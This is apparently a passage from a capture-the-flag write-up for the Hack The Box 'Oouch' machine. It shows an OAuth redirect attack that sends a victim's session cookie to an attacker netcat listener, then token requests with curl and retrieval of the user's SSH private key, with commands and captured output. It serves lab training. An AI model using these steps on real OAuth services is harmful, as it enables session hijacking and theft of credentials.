 Next step is to create a client app at [http://authorization.oouch.htb:8000/oauth/applications/register](http://authorization.oouch.htb:8000/oauth/applications/register) with the login found on the documents.

* Use authorization\_code as client type
* Redirect url should be pointing to your netcat listener \(`http://1.2.3.4:4443`\)

Craft an auth request with the client\_id, client\_secret and redirect\_url created in the client.

Then send the auth request on the contact form again and wait ~30 seconds with your netcat listening on the correct port

```bash
http://authorization.oouch.htb:8000/oauth/authorize/?grant_type=authorization_code&client_id=<CLIENT_ID>&client_secret=<CLIENT_SECRET>&redirect_uri=http://10.10.14.34:4443
```

Once qtc clicks the link, will attempt to authorize in our client and get redirected to us, here we can steal his cookie on `authorization`.

```bash
$ rlwrap nc -nvlp 4443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 10.10.10.177.
Ncat: Connection from 10.10.10.177:32776.
GET /?error=invalid_request&error_description=Missing+response_type+parameter. HTTP/1.1
Host: 10.10.14.34:4443
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: sessionid=gp7p8lcttjmq4kyc93m4uzkdhi4yledq;
```

Now we can login as `qtc` on authorization with that cookie, change it on the browser or add it as header `Cookie: sessionid=<COOKIE>` in curl or python.

At this point we create a new client app as with type `client_credentials`.

Then we get a token on the new client to get a new valid token.

```bash
$ curl -X POST 'http://authorization.oouch.htb:8000/oauth/token/' -H "Content-Type: application/x-www-form-urlencoded" --data "grant_type=client_credentials&client_id=<CLIENT_ID>&client_secret=<CLIENT_SECRET>" -L -s
{"access_token": "iZAtci8ayDcYQsbCeBctfOj1MIpARK", "expires_in": 600, "token_type": "Bearer", "scope": "read write"}
```

Once we have a token and a cookie on authorization, get can get ssh information about `qtc` user, as Chris mentioned in the /documentation, copy the ssh\_key into a file.

```bash
curl -X GET 'http://authorization.oouch.htb:8000/api/get_ssh/?access_token=<TOKEN>' -H "Cookie: sessionid=<COOKIE>"

{"ssh_server": "consumer.oouch.htb", "ssh_user": "qtc", "ssh_key": "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAYEAqQvHuKA1i28D1ldvVbFB8PL7ARxBNy8Ve/hfW/.............\n-----END OPENSSH PRIVATE KEY-----"}
```
